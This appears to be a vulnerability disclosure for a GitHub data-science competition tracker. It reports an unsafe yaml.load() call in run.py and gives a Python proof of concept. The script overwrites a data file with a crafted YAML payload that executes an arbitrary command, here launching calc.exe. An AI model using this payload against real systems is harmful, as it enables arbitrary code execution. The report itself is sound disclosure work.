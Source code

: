 ## ✍️ Description
A collection of popular Data Science Challenges/Competitions || Countdown timers to keep track of the entry deadlines.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
yaml.load() in run.py is responsible for code execution.
https://github.com/iphysresearch/DataSciComp/blob/master/run.py#L46
```
```python
# exploit.py
import os
os.system("git clone https://github.com/iphysresearch/DataSciComp.git")
os.chdir("DataSciComp/_data/")
payload = """title: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
os.system("rm _effective_kaggle.yaml")
open("_effective_kaggle.yaml","w+").write(payload)
os.chdir("../")
print(os.getcwd())
os.system("python3 run.py")
```
![]()
